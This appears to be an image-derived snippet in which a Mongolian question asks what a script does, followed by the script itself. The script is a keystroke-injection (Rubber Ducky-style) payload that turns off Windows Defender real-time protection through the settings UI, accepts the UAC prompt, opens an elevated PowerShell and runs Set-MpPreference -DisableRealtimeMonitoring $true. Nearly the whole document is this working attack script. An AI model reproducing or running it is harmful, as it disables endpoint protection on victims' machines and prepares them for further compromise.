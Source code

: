 Энэхүү скрипт нь ямар зорилготой вэ?

DELAY 1000
CONTROL ESCAPE
DELAY 300
STRING virus & threat protection
DELAY 500
ENTER
DELAY 500
TAB
DELAY 50
TAB
DELAY 50
TAB
DELAY 50
TAB
DELAY 50
ENTER
DELAY 50
SPACE
DELAY 1000
ALT y
DELAY 500
ALT F4
DELAY 1000
GUI r
DELAY 500
STRING powershell
DELAY 400
ENTER
DELAY 700
STRING Start-Process powershell -Verb runAs
DELAY 500
ENTER
DELAY 750
SHIFT LEFTARROW
DELAY 500
ENTER
DELAY 1500
STRING Set-MpPreference -DisableRealtimeMonitoring $true
DELAY 500
ENTER
